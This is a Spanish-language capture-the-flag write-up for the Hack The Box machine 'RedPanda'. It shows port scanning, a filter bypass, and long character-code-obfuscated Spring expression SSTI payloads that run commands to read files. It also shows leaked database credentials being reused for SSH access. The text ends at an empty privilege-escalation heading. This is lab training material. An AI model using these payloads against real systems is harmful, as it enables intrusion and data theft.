```yaml
---
title: Red Panda Writeup
published: true
---
```




Hoy resolveremos la maquina retirada "RedPanda" es una maquina de hack the box de dificultad facil.


![RedPanda](https://user-images.githubusercontent.com/109216235/185928422-3e828dfa-543c-4e4f-b1e0-c1a2fdced03b.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la maquina con nmap


```nmap
nmap -sC -sV -T4 10.10.11.170
Nmap scan report for 10.10.11.170
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy

```

Con este analisis podemos ver que tiene el puerto ssh y el puerto http abierto. Esto nos hace enteder que esta maquina tiene un puerto para acceder de forma remota y un puerto para poder acceder en internet


![imagen](https://user-images.githubusercontent.com/109216235/185764843-feace9a3-e2e5-43e9-a1c4-3271e7620de2.png)


# [](#header-2) Vulnerabilidad


Dentro de la pagina vemos un buscador y probando payloads vemos que nos bloquea el caracter $


![imagen](https://user-images.githubusercontent.com/109216235/185764827-93488e1f-c4de-4f1c-b9fb-d89c58276616.png)


Probamos con el caracter * y vemos que si que nos deja


![imagen](https://user-images.githubusercontent.com/109216235/185764892-8e6c1201-4efe-42bd-a6c4-26852677a38e.png)


Sabiendo esto usando esta herramienta de VikasVarshney https://github.com/VikasVarshney/ssti-payload podemos crear un payload que nos permita ejecutar comandos en el buscador. Si ponemos este payload en el buscador conseguiremos la "user.txt".


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Utilizando la misma tecnica encontramos un archivo en esta ruta /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java Utilizando este payload 


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

Y nos devuelve esto

```javascript
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
stmt.setString(1, "%" + query + "%");
```

Este output nos indica un posible usuario y una posible contraseña. Probando conseguimos acceder al ssh
```bash
ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
```

# [](#header-3) Escalada de privilegios

